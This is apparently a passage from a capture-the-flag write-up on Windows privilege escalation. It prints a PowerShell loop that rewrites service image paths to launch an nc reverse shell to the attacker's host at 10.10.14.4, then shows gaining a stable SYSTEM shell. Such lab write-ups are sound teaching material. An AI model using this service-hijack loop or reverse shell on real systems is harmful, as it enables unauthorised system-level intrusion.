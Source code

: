 ### Exploit Loop = Shell

For some reason, the first couple of these I tried didn’t work. From here, I just decided to try them all. Here’s the expanded code:

```

foreach ($service in $services) { 
  $sddl = (cmd /c sc sdshow $service)[1]; 
  $reg = gp -path hklm:\system\currentcontrolset\services\$service; 
  if ($sddl -match "RP[A-Z]*?;;;AU" -and $reg.ObjectName -eq "LocalSystem") { 
    write-host "Trying to hijack $service"; 
    $old_path = (get-itemproperty HKLM:\system\currentcontrolset\services\wuauserv).ImagePath; 
    set-itemproperty -erroraction silentlycontinue -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.4 443"; 
    start-service $service -erroraction silentlycontinue; 
    set-itemproperty -path HKLM:\system\currentcontrolset\services\$service -name imagepath -value $old_path 
  }
}

```

It starts just like the loop above, but when the conditions match, instead of writing the service name, it writes a message, then gets the old value for the service binary. Then it sets that path to `nc.exe` connecting back to me. It then starts the service, and the puts the original bin path back.

When I run this, when it gets to `seclogon`, I get a shell:

[![screenshot of shell coming in](https://0xdfimages.gitlab.io/img/image-20200423170843330.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20200423170843330.png)

I don’t know why the others don’t work (please leave a comment if you do). I also can’t explain why I get an error trying to write to `RasMan`. But, I have a shell as SYSTEM. If I break out of the shell and restart the listener, it also works for `wuauserv`.

### Stable Shell

When starting `nc.exe` as a service, it will die after a minute or so. To keep a stable shell, I just started a second listener on 444. When the first one connected, I just ran `nc.exe` from it, and that new process connects back as SYSTEM and will live past the first minute.

![image-20200423171258354](https://0xdfimages.gitlab.io/img/image-20200423171258354.png)

From there, I’ll grab `root.txt`:

```

C:\Users\Administrator\Desktop>type root.txt
8f8613f5************************

```